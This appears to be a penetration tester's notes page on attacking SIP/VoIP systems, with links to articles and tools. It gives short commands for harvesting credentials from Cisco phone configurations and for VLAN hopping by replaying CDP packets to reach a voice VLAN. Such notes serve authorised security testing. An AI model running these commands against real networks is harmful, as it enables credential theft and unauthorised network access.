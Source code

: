 ```yaml
---
description: Session Initiation Protocol / Voice over IP
---
```


# SIP / VoIP

- [https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4](https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4)
- [https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/](https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/)




## IP Phones

- [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
- [https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/](https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/)
- [https://github.com/trustedsec/SeeYouCM-Thief](https://github.com/trustedsec/SeeYouCM-Thief)
- [https://github.com/llt4l/iCULeak.py](https://github.com/llt4l/iCULeak.py)
- [https://github.com/Bond-o/vnum](https://github.com/Bond-o/vnum)

Enumerate phones for credentials leak:

```
$ python3 iCULeak.py -nA -c CUCM01.megacorp.local -l phones.txt 192.168.1.11
```



### VLAN Hopping on Cisco Voice

- [https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/](https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/)

Capture the first CDP advertisement while plugged through the phone:

```
$ sudo tcpdump -s 0 -w cdp-packet.cap -c 1 -ni eth0 ether host 01:00:0c:cc:cc:cc
$ sudo tcpdump -vr cdp-packet.cap
```

Relay it once a minute to simulate a legit phone device:

```
$ sudo watch -n 60 "tcpreplay -i eth0 cdp-packet.cap"
```

Configure a sub-interface to access the voice VLAN:

```
$ sudo vconfig add eth0 1337
$ sudo ifconfig eth0.1337 up
$ sudo dhclient -v eth0.1337
```

